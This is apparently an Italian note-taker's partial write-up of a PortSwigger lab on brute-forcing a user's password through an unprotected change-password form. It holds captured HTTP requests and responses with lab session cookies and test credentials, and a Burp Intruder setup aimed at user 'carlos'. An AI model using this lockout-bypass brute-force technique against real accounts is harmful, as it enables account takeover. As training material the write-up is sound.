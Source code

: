 https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change

L'obiettivo è accedere con utente `carlos`, e con una password presente in una lista già fornita:

https://portswigger.net/web-security/authentication/auth-lab-passwords

...ci si potrebbe domandare: perché non fare brute-force direttamente sul form di login?

Probabilmente per questo motivo:

![](_attachment/Pasted%20image%2020250302125237.png)

...evidentemente il form di accesso blocca dopo x tentativi di accesso. Il form per il reset password no :)

Vediamo dunque qual'è una richiesta di cambio password "legittima" (relativa al cambio password di `wiener`):

```html
POST /my-account/change-password HTTP/2
Host: 0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Cookie: session=iSM2rL8HdXYet2wZ2LxEsvHtDGOR7Z1v
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener&current-password=peter&new-password-1=password&new-password-2=password
```

risposta:

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2641

..
..
```



vediamo anche una richiesta di cambio password in cui mettiamo, volutamente, la password corrente sbagliata:

```html
POST /my-account/change-password HTTP/2
Host: 0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Cookie: session=CsrdzZ1DshclWvDhuSXNLhwYUnp2nYso
Content-Length: 79
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener&current-password=rofl&new-password-1=rofl3&new-password-2=rofl3
```

risposta:

```html
HTTP/2 302 Found
Location: /login
Set-Cookie: session=W8rLaM0LCJQ9MMkcsQUHmSOvNnj7vLwx; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0 <============
```

## try to brute force

inviamo questa richiesta al tab "intruder"

(dobbiamo sostituire ovviamente `wiener` con `carlos`) 

ho anche tolto il Cookie

```html
POST /my-account/change-password HTTP/2
Host: 0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1400d404a7bea2845c3b480055000b.web-security-academy.net/my-account?id=carlos
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=carlos&current-password=peter&new-password-1=password&new-password-2=password
```

...tutti i nostri tentativi sembrano NON andare a buon fine:

![](_attachment/Pasted%20image%2020250302132433.png)

idea: probabilmente nelle nostre richieste dobbiamo eliminare l'header `Content-Lenght`, in quanto NON sarebbe corrispondente ai nostri payload (la lunghezza delle password non è sempre la stessa).

EDIT: ho visto la soluzione, probabilmente non ci sarei arrivato :D



